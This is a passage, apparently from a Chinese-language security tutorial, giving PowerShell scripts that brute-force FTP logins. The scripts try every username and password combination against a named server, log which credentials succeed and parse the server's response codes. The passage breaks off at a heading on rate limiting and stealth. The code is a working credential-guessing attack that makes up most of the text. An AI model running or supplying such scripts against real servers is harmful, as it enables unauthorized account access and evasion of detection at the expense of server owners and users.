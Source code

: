 ```
 $ftpServer = "ftp.snowcapcyber.com"
$ftpPort = 21
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
        # Attempt FTP login
        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://${ftpServer}:${ftpPort}")
        $ftpRequest.Credentials = $credentials
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectory
        try {
            $ftpResponse = $ftpRequest.GetResponse()
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        }
        catch [System.Net.WebException] {
            # Handle FTP server response (e.g., incorrect credentials)
            $errorMessage = $_.Exception.Message
            Write-Host "Login failed: $username:$password - $errorMessage"
        }
    }
}
```

该脚本尝试使用每个用户名和密码组合进行登录。它使用 `FtpWebRequest` 类创建 FTP 连接，并处理服务器的响应。成功的登录将触发进一步的操作，而失败的尝试及相应的错误信息将被捕获。

## 处理 FTP 服务器的响应

FTP 服务器通过不同的代码响应，指示登录尝试的成功与失败。PowerShell 脚本可以解析这些响应，以确定每次暴力破解尝试的结果。例如，以 `2` 开头的响应代码表示成功，而 `4` 或 `5` 则表示错误：

```
 try {
    $ftpResponse = $ftpRequest.GetResponse()
    $responseCode = [int]$ftpResponse.StatusCode
    if ($responseCode -ge 200 -and $responseCode -lt 300) {
        Write-Host "Login successful: $username:$password"
        # Perform additional actions based on a successful login
    } else {
        Write-Host "Login failed: $username:$password - Unexpected response code: $responseCode"
    }
}
catch [System.Net.WebException] {
    # Handle expected errors (e.g., incorrect credentials)
    $errorMessage = $_.Exception.Message
    Write-Host "Login failed: $username:$password - $errorMessage"
}
```

## 限制速率与隐蔽性
